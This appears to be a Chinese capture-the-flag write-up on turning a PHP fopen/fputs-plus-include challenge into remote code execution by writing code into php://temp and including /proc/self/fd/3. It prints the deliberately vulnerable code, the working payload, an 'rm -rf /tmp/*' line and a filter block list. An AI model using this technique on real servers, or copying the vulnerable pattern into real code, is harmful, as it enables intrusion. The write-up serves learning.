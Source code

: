 ```php
$fp = fopen($_REQUEST["file"], 'r+');//使用fopen打开的文件必须是已经存在的文件
fputs($fp, $_REQUEST["content"]);//对写入的内容做了不包括<?`$_GET[0]`? >的无效代码限制
include $_REQUEST["include_file"];
```

这里写入的内容可以是能够RCE的代码, 但是写入的文件必须是当前已存在的并且绝对路径总字符数不大于10,包含的文件因为检测`tmp|sess|php`所以包含`pear.php文件`和`php://filter`的方法以及`progress文件上传状态`和`直接包含临时文件`的方法都不可用了,想要解题只有两个方法:

1. 找到满足决定路径不超过10字符的可读写文件进行文件覆写
2. 使用`php://temp`结合`/proc/self/fd/x`包含php://temp写入数据后生产的php临时文件

这里直接设定$\_REQUEST参数进行测试并且在后面添加一个system函数列出fd目录(临时文件的fd稳定为3):

```php
<?php
$_REQUEST["file"]="php://temp";
$_REQUEST["content"]="<?`touch /tmp/111`?>".str_repeat("a",4*1024*1024);
$_REQUEST["include_file"]="/proc/self/fd/3";

system("rm -rf /tmp/*");
chdir("/");//改到根目录防止直接修改./index.php
if(isset($_REQUEST['file'])&&strlen($_REQUEST['file'])>10){
    die("file too long,no flag");
}

if(isset($_REQUEST['include_file'])&&strlen($_REQUEST['include_file'])>15){
    die("include_file too long,no flag");
}
elseif(isset($_REQUEST['include_file'])&& preg_match("/tmp|php|sess/im",$_REQUEST["include_file"])){
    die("include_file have hacker_chars,no flag");//断掉progress文件上传状态和直接包含临时文件的方法
}

if(preg_match("/php|file|ftp|data|http|eval|exec|system|popen|flag|pear|=|\.|\||-/i", $_GET['content'])){
    die("hacker");
}

$fp = fopen($_REQUEST["file"], 'r+');//使用fopen打开的文件必须是已经存在的文件
fputs($fp, $_REQUEST["content"]);//对写入的内容做了不包括<?`$_GET[0]`? >的无效代码限制
system("ls -al /proc/self/fd");
include $_REQUEST["include_file"];
```

执行后::

![image-20220911051003623](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-50bfd43d79af8353220bc5efedebd9a9abc84303.png)

![image-20220911051108898](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-ceb11b0fbc8be050eeafaa57f8d81033652ae77b.png)

可以看到命令执行成功, 调完这个简单的知识点居然就不小心就熬到快天亮了,睡了睡了